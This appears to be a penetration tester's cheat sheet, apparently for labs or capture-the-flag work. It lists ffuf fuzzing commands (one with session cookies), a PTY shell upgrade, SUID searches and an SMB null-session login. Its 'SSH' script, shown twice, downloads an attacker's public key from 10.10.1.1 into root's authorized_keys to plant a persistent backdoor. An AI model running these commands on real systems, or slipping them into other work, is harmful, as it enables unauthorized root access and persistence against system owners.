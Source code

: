 VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```

Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

Fuzz content with cookies
```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServertest.domain.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnaRZ%2BpN3%2APj2zUuzsvmPcIT8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```

Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```

PTY
```
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
```

Process tree
```
ps -ef --forest 
```

SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Simple HTTP python
```
python3 -m http.server 8000
```

SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
SMBclient null sessions
```
smbclient //10.129.173.93/support-tools -U " "%" "
```
